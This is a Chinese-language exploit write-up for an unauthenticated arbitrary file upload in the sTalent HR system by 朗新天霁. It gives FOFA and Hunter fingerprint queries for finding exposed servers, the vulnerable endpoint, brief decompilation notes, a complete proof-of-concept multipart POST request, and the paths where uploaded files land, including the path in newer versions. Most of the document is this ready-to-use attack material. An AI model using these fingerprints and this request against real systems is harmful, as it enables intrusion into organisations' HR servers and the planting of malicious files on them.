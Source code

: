 ```yaml
---
title: 朗新天霁sTalent任意文件上传
---
```


# 朗新天霁sTalent前台任意文件上传

## 漏洞厂商

北京朗新天霁软件技术有限公司

## 厂商官网

http://www.hrsoft.com.cn/  

## 产品

sTalent系统

## 指纹

**FOFA**

```
"/js/Comm/loadingsmall.js" && icon_hash="1772087922"
```

**Hunter**

```
web.body="/js/Comm/loadingsmall.js" && web.icon=="4859e39ae6c0f1f428f2126a6bb32bd9"
```

漏洞地址:`/api/Report/SaveNewReport`

漏洞分析:

在`Web.Api.dll`文件中进行反混淆，得到源代码。程序采用MVC结构

`Web.Api.Controllers.Report`类下的`SaveNewReport`存在文件上传漏洞

由于存在鉴权，需要方法添加注释

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183117550.png)

这里满足，并且在`httpPostedFile`对象后调用了`SaveAs`方法

存储路径在`/report\\newReportFiles`下

## POC

```
POST /api/Report/SaveNewReport?rptId=1 HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=qreedyvzmub5afo1nba2i22d
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Length: 177 

------WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Disposition: form-data; name="file";filename="1.txt"
Content-Type: image

111
------WebKitFormBoundaryxzpiOaIdFLPXG0zW—
```

文件路径:

`/report/newReportFiles/1_1.txt`

`report/newReportFiles/{rptId}_filename`

新版本路径在:`/api/Report/Report/SaveNewReport`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183400986.png)
